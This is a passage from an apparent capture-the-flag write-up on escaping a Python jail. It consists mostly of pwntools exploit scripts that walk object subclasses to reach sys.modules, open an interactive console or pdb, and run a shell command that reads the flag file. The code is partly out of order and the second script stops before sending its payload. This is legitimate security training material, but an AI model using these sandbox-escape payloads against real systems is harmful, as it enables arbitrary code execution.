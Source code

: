 ```python

# synthesize "sys" and "code"
def synthesize(text):
    res = []
    for ch in text:
        index = help_text.index(ch)
        res.append("S[" + get_index(index) + "]")
    return "+".join(res)


p.recvuntil(b">> ")
p.sendline(
    b"[A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,H:="
    + helper.encode()
    + b",P:="
    + printer.encode()
    + b",S:=().__class__.__base__.__subclasses__()[H].__doc__,().__class__.__base__.__subclasses__()[P].__init__.__globals__["
    + synthesize("sys").encode()
    + b"].modules["
    + synthesize("code").encode()
    + b"].InteractiveConsole().interact()]"
)
p.recvuntil(b">>> ")
p.sendline(b"import os")
p.sendline(b'os.system("cat flag.txt")')
p.interactive()
```

### Use pdb module

The attack using pdb is similar: we only need to call `pdb.set_trace()`:

```python
from pwn import *

context(log_level="debug")

p = remote("0.cloud.chals.io", 33618)
p.recvuntil(b">> ")
p.sendline(b"().__class__.__base__.__subclasses__()")
res = p.recvline().decode()

helper_index = res.split(", ").index("<class '_sitebuiltins._Helper'>")
printer_index = res.split(", ").index("<class '_sitebuiltins._Printer'>")
print("Helper", helper_index)
print("Printer", printer_index)

# A is 10, B is 100


def get_index(index):
    if index % 10 <= 5:
        parts = (
            ["True"] * (index % 10)
            + ["A"] * (index // 10 % 10)
            + ["B"] * (index // 100 % 10)
        )
        return "+".join(parts)
    else:
        parts = ["A"] * (index // 10 % 10 + 1) + ["B"] * (index // 100 % 10)
        return "+".join(parts) + "-" + "-".join(["True"] * (10 - index % 10))


```